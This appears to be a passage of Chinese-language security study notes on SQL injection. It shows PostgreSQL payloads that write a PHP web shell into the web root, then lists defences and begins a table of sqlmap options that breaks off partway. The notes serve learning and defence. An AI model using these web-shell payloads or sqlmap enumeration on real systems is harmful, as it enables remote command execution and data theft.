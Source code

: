        类似于MySql的`INTO OUTFILE`
        
        要求：需要超级用户权限
        
        ```java
        COPY (SELECT '<?php system($_GET["c"]);?>') TO '/var/www/html/shell.php';
        ```
        
    2. 大对象导出
    原理：将Webshell代码作为大对象写入数据库，再将其导出到文件。
        
        ```java
        SELECT lo_export(lo_create(0), '/tmp/shell.php');
        UPDATE pg_largeobject SET data = convert_to('<?php system($_GET["c"]);?>', 'UTF-8') WHERE loid = 12345; -- 先写入数据再导出
        ```
        

### GetShell防御

1. **根本措施：预编译（参数化查询）**：杜绝SQL注入的发生，从源头上切断所有可能性。
2. **最小权限原则**：
    - 数据库用户：严格限制权限，禁止授予 `FILE`、`sysadmin`、`DBA` 等不必要的权限。
    - 运行账户：为数据库服务分配低权限运行账户，严格控制其对Web目录的写权限。
3. **安全加固配置**：
    - MySQL: 设置 `secure_file_priv=NULL` 或指定一个非Web的安全路径。
    - MSSQL: 禁用 `xp_cmdshell`、`Ole Automation Procedures` 等危险组件。
    - 定期更新数据库版本，修补已知安全漏洞。
4. **输入验证与过滤**：对用户输入进行严格的类型、长度、格式检查。
5. **纵深防御**：
    - 部署WAF（Web应用防火墙）拦截攻击Payload。
    - 对服务器进行严格的文件权限控制。
    - 对数据库操作进行审计日志记录，便于追踪和发现攻击行为。

### SQLMap常用命令

| **功能类别** | **命令选项** | **说明** |
| --- | --- | --- |
| **目标设置** | `-u "URL"` | 指定目标URL进行测试 |
|  | `--data="POST数据"` | 指定POST请求的数据 |
|  | `--cookie="Cookie值"` | 设置Cookie值 |
|  | `-r <文件>` | 从HTTP请求文件中加载目标 |
| **请求设置** | `--random-agent` | 使用随机的User-Agent头 |
|  | `--proxy="代理地址"` | 使用代理服务器 |
|  | `--delay=延迟秒数` | 设置请求之间的延迟 |
| **注入设置** | `-p "参数"` | 指定要测试的参数 |
|  | `--dbms="数据库类型"` | 指定后端DBMS类型（如MySQL、Oracle等） |
|  | `--level=级别（1-5）` | 测试等级 |
|  | `--risk=风险（0-3）` | 测试风险级别 |
|  | `--tamper="篡改脚本"` | 使用脚本绕过WAF/IDS |
| **检测技术** | `--technique=技术字母` | 指定注入技术（B:布尔盲注, T:时间盲注, E:报错注入, U:联合查询, S:堆查询） |
| **枚举信息** | `--current-db` | 获取当前数据库名称 |
|  | `--dbs` | 枚举数据库管理系统数据库 |
|  | `-D 数据库名 --tables` | 枚举指定数据库中的表 |